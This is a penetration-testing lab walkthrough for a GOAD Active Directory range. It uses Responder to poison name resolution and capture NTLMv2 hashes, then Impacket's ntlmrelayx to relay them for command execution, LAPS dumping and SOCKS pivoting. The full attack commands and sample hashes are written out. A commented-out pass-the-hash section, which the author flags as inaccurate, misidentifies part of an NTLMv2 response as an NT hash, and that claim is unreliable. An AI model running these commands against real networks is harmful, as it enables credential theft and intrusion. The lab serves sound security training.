






# Lab - Responder & Impacket

???+ warning "Prerequisites" 
    Don’t forget to use `sudo` with Responder AND ntlmrelayx.

    In addition to The Forge VM, you will need the `GOAD-DC02` VM powered on to capture the hashes with Responder. 

    **AND** you will need the `GOAD-SRV02` VM powered on in order to successfully relay to SMB.

## Intro

Responder and Impacket are powerful security tools used in the field of ethical hacking and network security.

Responder is a LLMNR, NBT-NS, and MDNS poisoner that is extremely useful in penetration testing. It allows an attacker to sniff challenge hashes on a network, and can also serve fake WPAD proxies to capture more hashes.

Impacket, on the other hand, is a suite of Python classes focused on providing network protocols, such as IP, TCP, UDP, ICMP, IGMP, ARP, etc. It also provides implementations for attacking versions of protocols like SMB and MSSQL. This tool is highly valuable for those who want to understand the inner workings of network protocols and discover vulnerabilities within them.

Together, Responder and Impacket create a formidable combination for carrying out advanced network security testing and penetration testing exercises.

## Walkthrough

### Temporarily Disable Troublesome Services & Protocols

Temporarily disabling the below services and protocols is necessary within our testing environment to ensure the Lab run smoothly. Normally, you wouldn't have all these things running at the same time on an engagement.

!!! note
    These changes will only persist until the next reboot of The Forge VM.

**GoPhish:**

First, GoPhish is likely still running on port 80 which can cause a small error for this Lab. So, run the below command to make sure it is shut down.

You’ll probably be prompted for the telchar user’s password after this command.

```bash
gophish-stop
```

**RDP:**

Next, The Forge is also configured to have an RDP service automatically running on boot up. This was included for flexibility in deployment options for students. 

Let’s go ahead and stop that service too so it doesn’t interfere with Responder’s services.

```bash
sudo systemctl stop xrdp
```

**IPv6:**

Finally, lets disable IPv6 via the `sysctl` command. This will simplify configuring Responder's out-of-scope/exclude list.

```bash
sudo sysctl -w net.ipv6.conf.all.disable_ipv6=1
sudo sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

### Activating the Python Virtual Environment

We created a virtual environment during tool installation for Python to run Responder without conflicting with the system libraries. Let’s activate that again now so we can run things properly.

```bash
cd ~/git-tools/Responder
source venv/bin/activate
```

### Configuring the Scope

???+ warning
    THESE SCOPE CHANGES ARE REQUIRED FOR THE LAB TO WORK!

    Not doing this could cause the lab to error out.

The `~/git-tools/Responder/Responder.conf` is the file we’re interested in. We want to make sure we ONLY target the systems we care about and NOT ones that are off limits. We can do this two ways.

1. Setting `RespondTo` to our target/in-scope systems
2. Setting `DontRespondTo` to any IPs we consider out-of-scope

We're going to focus on the `DontRespondTo` approach for this Lab.

#### *What* To Exclude

We need to add the IPv4 address assigned to the VMWare virtual network we setup for class. 

The image below shows the `192.168.56.1` IP added to the out-of-scope list of our config file. This is so we avoid poisoning our gateway or else the tool will error out and break the Lab.

{ width="70%" }
///caption
`DontRespondTo` Config Setting
///

The IPv4 address of "192.168.56.1" **should** stay the same for you if you followed the setup instructions at the beginning of class.

#### Updating The Config File
 
Let's now add `192.168.56.1` to the `DontRespondTo` list in the config file like the image above showed. Do this by running...

```bash
nano Responder.conf
```

Find the `DontRespondTo` line and add the IPv4 address as shown below.

{ width="70%" }
///caption
`DontRespondTo` Config Setting
///

To save these config changes you can hit `Ctrl-x` → `y` → `Enter`.
 
Once, we start Responder up we should see the `192.168.56.1` address in the out-of-scope settings reflected in the terminal output.

{ width="70%" }
///caption
Scope Config
///

???+ note
    You can also set specific systems to *ONLY* respond to, but we are **not** going to do that today.

    { width="70%" }
    ///caption
    `RespondTo`  Config Setting
    ///

### Multicast DNS Poisoning with Responder

Now, we need to figure out which network interface to have Responder listen on. To do that, run the command below and look for the interface that has our IP address (`192.168.56.100`) that was set at the beginning of this Lab. You did do that step right? Right??

```bash
ip addr
```

{ width="70%" }
///caption
Network Interfaces
///

Now let’s take that value and use it in the `-I` option when we start Responder using the command below.

```bash
sudo -E -H $VIRTUAL_ENV/bin/python Responder.py -I ens36
```

???+ warning
    Your network interface name (`-I [this_value]`) might be different than the example command. Be sure to update it to reflect YOUR interface name.

There is a bot on our `GOAD-DC02` target VM trying to make a SMB connections to `bravos` instead of the correct spelling of `braavos`. The DNS doesn’t know bravos without ‘aa’ so by default windows will send a broadcast request to find the associated computer. With responder we answer to that broadcast query and say that this server is us, and so we get the connection from the user.

???+ warning
    The bot only runs every 3 to 5 minutes. So you may have to wait a little bit to see traffic.

By saying *we* are `bravos` the `GOAD-DC02` systems sends us the user hashes while trying to make a SMB connection. Resulting in us capturing a couple NTLMv2 hashes.

{ width="70%" }
///caption
Hashes Captured
///

Once you have captured the hashes for ***BOTH*** `robb.stark` and `eddard.stark`, let’s stop Responder with `Ctrl`+`c`.

The NTLMv2 hashes are not usable to do pass-the-hash with just Responder, but you CAN crack them to retrieve the cleartext passwords.

???+ note
    Captured hashes can also be used with NetExec to SMB enumeration. We’ll show an optional example of this later in the Lab.

Let’s extract the captured hashes for `robb.stark` and `eddard.stark` from Responder and set them aside. We’re not ready to do cracking just yet.

The captured hashes are stored in the file below.

```bash
cat ~/git-tools/Responder/logs/SMB*
```

Unfortunately, that file repeats the hashes over and over and over again for every instance that Responder intercepted them. We need a single instance of each user's hash. 

To make things easier, Responder included a python script which grabs the unique hashes for us. Simply run the command below.

```bash
sudo -E -H $VIRTUAL_ENV/bin/python DumpHash.py
```

{ width="70%" }
///caption
DumpHash.py
///

There won't be any NTLMv1 hashes so don't worry about that line.

Copy the NTLMv2 hashes in their entirety to a file called `responder.hashes` in your home directory.

```bash
nano ~/responder.hashes
```

I’ve captured some static hashes below that can be stand-ins (though not perfect) if you couldn’t get this Lab to work. Put these in a file called `responder.hashes` in your home directory for use later.

```
robb.stark::NORTH:1122334455667788:138B29A14C5A082F19F946BB3AFF537E:01010000000000000090C5E56494D801E5D2F5789054B95D0000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000
eddard.stark::NORTH:1122334455667788:76E26250ABF96A09E68ADC5A9B1A4C29:01010000000000000090C5E56494D801CA05EDDA86BE30280000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
```

???+ warning
    Keep these for when we get to the Hashcat Lab.

### Relaying with Impacket

???+ warning "Two Target VMs Required"
    You’ll need BOTH `GOAD-DC02` and `GOAD-SRV02` targets running in order to relay successfully.

Next up, we're gonna do some relaying with Impacket. To do this, we have to make some more configuration changes to responders configuration file.

We must stop the responder SMB and HTTP server as we don’t want to get the hashes directly but we want to relay them to got to Impacket’s ntlmrelayx.

```bash
nano ~/git-tools/Responder/Responder.conf
```

{ width="70%" }
///caption
Turn Off Services
///

Once you've turned off SMB and HTTP. in the configuration. you can start Responder back up using the same command. that you ran before in the first section of this lab. As you can see from the screenshot below, it should be indicated when responder starts up that both those services are disabled.

```bash
sudo -E -H $VIRTUAL_ENV/bin/python Responder.py -I ens36
```

{ width="70%" }
///caption
Services are Off
///

???+ warning
    Keep responder running in one terminal window and open a second terminal window to execute the impacket commands below.

Before we start Impacket’s ntlmrelayx, we want to create a new directory where we can dump the results of our relaying. Create that directory with the command below.

???+ warning
    You MUST create the below directory BEFORE running ntlmrelayx...

```bash
sudo mkdir /opt/work
```

We are now configured to start relaying hashes to various targets on our network. But how do we decide which systems to target?

Well remember back when we captured those hashes with Responder? The protocol defined alongside the hash capturing output was `[SMB]`.

{ width="70%" }
///caption
Protocol Used To Capture Hashes
///

So, we know SMB authentication via hashes is happening on the subnet and we’re going to use ntlmrelayx to relay those hashes to targets. BUT in order for this to be successful, our targets cannot ***require*** SMB signing.

???- note "SMB Signing Explained"
    SMB signing adds a cryptographic signature to each SMB message. This signature verifies the integrity and authenticity of the message, ensuring it has not been tampered with during transmission. This includes verifying the hash is coming from its true originating machine and not an attacker’s.

Remember how we did this manually with Nmap during the NetExec Lab and then used NetExec’s own `--gen-relay-list` to create a list of targets? That target file helps direct Impacket’s efforts for relaying. It will *only* relay to systems within that `smb_relay.txt` file.

The command below invokes **`impacket-ntlmrelayx`**, a tool from the Impacket suite designed for NTLM relay attacks. These attacks exploit the NTLM authentication protocol to relay credential authentication requests to other network services. The tool is highly configurable, allowing for various attack scenarios. 

```bash
sudo /home/telchar/.local/bin/ntlmrelayx.py -tf ~/smb_relay.txt --delegate-access -ts -of /opt/work/relays --dump-laps -l /opt/work/loot -smb2support -c whoami -socks | tee -a smb-relay.log
```


???- note "Command Options/Arguments Explained"
    There's a lot packed into that one command so lets breakdown its components:

    - **`-tf ~/smb_relay.txt`**: Specifies a targets file (**`tf`**) that contains a list of IP addresses to relay the NTLM authentication attempts to. **`~/**smb_relay.txt` should be a file path to the list of target IP addresses, presumably those running SMB services.
    - **`--delegate-access`**: Enables delegation of access, allowing the attacker to request any service ticket on behalf of the user, expanding the scope of the attack.
    - **`-ts`**: Adds timestamp to every logging output
    - **`-of /opt/work/relays`**: Specifies the output file for dumping captured hashes or other relevant data. **`/opt/work/relays`** is the path where this information will be saved.
    - **`--dump-laps`**: Attempts to dump the Local Administrator Password Solution (LAPS) passwords, which are dynamically managed administrator passwords for Windows computers.
    - **`-l /opt/work/loot`**: Sets the base logging folder (**`l`**) where various logs and loot grabbed during the attack will be stored. **`/opt/work/loot`** is the specified directory for this purpose.
    - **`-smb2support`**: Enables support for SMB2, allowing the tool to relay to services using SMB version 2.
    - **`-c whoami`**: Executes a command (**`c`**) on the relayed connections. **`whoami`** is the command specified here, which is typically used to confirm the identity the attacker is operating under on the remote system.
    - **`-socks`**: Starts a SOCKS server for proxying traffic through relayed connections, enabling direct interaction with the network through the credentials of relayed authentication sessions.
    - **`| tee -a smb-relay.log`**: Pipes the output of the entire command into **`tee`**, which is instructed to append (**`a`**) the output to **`smb-relay.log`**. This file will log the output of the command for later review.

The output from this command is shown below, which highlights the SMB authentication success after relaying a hash. The `whoami` command being executed on a target machine. Lastly, a SOCKS proxy being added after the successful connection. This SOCKS proxy could then be used to pivot to new targets.

???+ note
    This can take a few minutes for anything to happen. And even longer still for a successful SMB connection and SOCKS proxy to be established. So be patient.

The below screenshot was cleaned up a bit to fit everything in neatly. Your output may appear…more jumbled.

{ width="70%" }
///caption
Relaying SUCCESS!
///

You can type `socks` in the terminal while ntlmrelayx is running to see a list of the SOCKS proxies that are set up.

Eventually, you will get two SOCKS proxy connections setup. Both will be for the 192.168.56.22 (GOAD-SRV02) VM. One for the user `robb.stark` which will not have admin access on the target system. The other will be for the user `eddard.stark` which will have admin access.

???- note "How SOCKS Proxies Help Attackers"
    With an established SOCKS proxy on a target system, you gain significant flexibility in how you can continue your engagement. Here are some key actions you can take:

    1. Network Pivoting
        1. **Extend your attack surface**: By setting up a SOCKS proxy, you can pivot through the internal network, essentially routing traffic through the compromised host to access other internal systems that may not be directly reachable from your attacking machine.
    2. Tunneling Other Protocols
        1. You can route a variety of protocols over the SOCKS proxy:
            1. **HTTP/HTTPS traffic** for web application assessments.
            2. **SMB traffic** for lateral movement and further exploitation attempts.
            3. **SSH and RDP** for remote access to internal machines.
    3. Bypass Network Segmentation
        1. If the network is segmented (e.g., DMZ or internal subnet), you can use the SOCKS proxy to bypass these segmentation controls and explore otherwise unreachable areas.
    4. Port Scanning
        1. Use tools like `nmap` with a SOCKS proxy (`proxychains`) to perform internal network port scans from your external machine. This gives insight into what services are running within the internal network.
    5. Exploiting Internal Services
        1. Exploit vulnerabilities on internal services (e.g., SMB exploits, RCE vulnerabilities in web applications) by routing your exploitation tools (Metasploit, CrackMapExec, etc.) through the SOCKS proxy.
    6. Credential Harvesting
        1. Intercept and analyze traffic using tools like `mitmproxy` or `Wireshark` routed through the SOCKS proxy to capture credentials or session tokens.
    7. Maintaining Persistence
        1. Keep a hidden foothold by maintaining the proxy as a backdoor, allowing for later reconnection to the internal network.

    A number of tools can help you take advantage of a SOCKS proxy. Including…

    - Proxychains: Wrap your tools to use the SOCKS proxy.
    - Metasploit: Can be configured to use SOCKS proxies for pivoting and exploitation.

    Each of these techniques extends your ability to explore and exploit the target environment further, once a SOCKS proxy is in place.

You can now stop both ntlmrelayx and Responder with `Ctrl`+`c` in their respective terminals.

We can always go back and reread this output with the below command.

```bash
less smb-relay.log
```

## Resetting The Board

Responder logs and execution history can be found in `~/git-tools/Responder/`.
You can run the below commands to clear out Responder’s history to re-run the Lab from scratch.

```bash
sudo rm ~/git-tools/Responder/logs/*.log
sudo rm ~/git-tools/Responder/*.db
```

If you don’t do this, the Lab *should* still work but the terminal won’t *show* the hashes. Instead, it would look like this.

{ width="70%" }
///caption
Skipping Hash Output
///

<!-- The following section is not accurate and needs close review. -->
<!-- ## Optional: SMB Auth / Pass-the-Hash

Now that we have some captured hashes, we can test SMB authentication by running the following command which will conduct a pass-the-hash style attack.

???+ warning
    Here are sample hashes captured with Responder within your Lab env.

    ```
    robb.stark::NORTH:1122334455667788:138B29A14C5A082F19F946BB3AFF537E:01010000000000000090C5E56494D801E5D2F5789054B95D0000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000
    eddard.stark::NORTH:1122334455667788:76E26250ABF96A09E68ADC5A9B1A4C29:01010000000000000090C5E56494D801CA05EDDA86BE30280000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
    ```

In the captured hashes above, the NTLM hash appears after the second colon (":") and before the second to last colon, which is this part: **`76E26250ABF96A09E68ADC5A9B1A4C29`** for the user `eddard.stark` and `138B29A14C5A082F19F946BB3AFF537E` for the `robb.stark` user.

We can execute a pass-the-hash attack against SMB manually with the below `netexec` command.

```bash
netexec smb 192.168.56.22 -u eddard.stark -H '76E26250ABF96A09E68ADC5A9B1A4C29' --local-auth --shares
```

- **`-H 'HASH'`**: The **`H`** option is used to specify an NTLM hash for authentication instead of a plaintext password. This is useful in situations where you have obtained the NTLM hash of a user's password through other means. **`'HASH'`** should be replaced with the actual NTLM hash.
- **`--local-auth`**: This flag indicates that local authentication should be used. This means the authentication attempt will be made assuming the provided credentials are for a local account on the target system, as opposed to a domain account.
- `--shares`: An option to list or interact with the SMB shares on the target machine.

{ width="70%" }

You won’t get the same results with the `robb.stark` user’s command below because that user doesn’t have the rights to access and list out the different shares.

```bash
netexec smb 192.168.56.22 -u robb.stark -H '138B29A14C5A082F19F946BB3AFF537E' --local-auth
```

You can also check a whole subnet (maybe widespread admin account?).

???+ warning
    BE CAREFUL HERE, without the `--local-auth` flag, accounts will lock out

```bash
netexec smb 192.168.56.0/24 -u USERNAME -H 'HASH' --local-auth
```

You can further extend your attack by including additional optional. Like the ones below…

- **`--sam`** and **`--lsa`** focus on extracting data from Windows security databases stored on disk.
- **`--M lsassy`** extracts credentials directly from memory, offering a different approach that can sometimes yield more immediate results, including plaintext passwords. -->